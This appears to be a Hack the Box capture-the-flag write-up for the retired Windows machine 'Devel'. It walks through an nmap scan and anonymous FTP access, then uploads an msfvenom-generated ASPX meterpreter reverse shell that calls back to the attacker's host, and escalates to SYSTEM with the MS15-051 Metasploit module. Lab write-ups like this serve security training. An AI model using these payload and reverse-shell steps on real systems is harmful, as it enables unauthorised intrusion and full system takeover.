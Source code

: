 ```yaml
---
layout: post
title: Hack the Box - Devel
date: 2020-06-23 19:06:22 +0100
description: Devel, while relatively simple, demonstrates the security risks associated with some defaultp rogram configurations. It is a beginner-level machine which can be completed using publicly available exploits.
img: devel.png
fig-caption: Devel
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/devel]
└─$ sudo nmap -p- -T4 10.129.113.247
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 19:37 GMT
Nmap scan report for 10.129.113.247
Host is up (0.016s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```
When accessing port 80 in a browser the default IIS page is visible and when connecting to the ftp server that is exposed as shown below you can see the same default page listed on the server. From there it is safe to assume that you have access to the same location and that we could upload a reverse webshell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/devel]
└─$ ftp 10.129.113.247
Connected to 10.129.113.247.
220 Microsoft FTP Service
Name (10.129.113.247:calxus): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
```

## Foothold
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/devel]
└─$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.27 LPORT=4455 -f aspx > reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2839 bytes
```
After generating the payload, we can put that in place on the ftp server and access it in a browser. Once we've done that, as long as we have a metasploit listener on the same port we should receive a shell.
```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4455 
[*] Sending stage (175174 bytes) to 10.129.113.247
[*] Meterpreter session 1 opened (10.10.14.27:4455 -> 10.129.113.247:49157) at 2021-03-15 19:55:35 +0000

meterpreter > getuid
Server username: IIS APPPOOL\Web
```

## Privilege Escalation
Once we received the shell, we can escalate by searching for the exploit using the local_exploit_suggester. Then running as below.
```
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.27:7894 
[*] Launching notepad to host the exploit...
[+] Process 1692 launched.
[*] Reflectively injecting the exploit DLL into 1692...
[*] Injecting exploit into 1692...
[*] Exploit injected. Injecting payload into 1692...
[*] Payload injected. Executing exploit...
[*] Sending stage (175174 bytes) to 10.129.113.247
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 2 opened (10.10.14.27:7894 -> 10.129.113.247:49158) at 2021-03-15 20:04:29 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```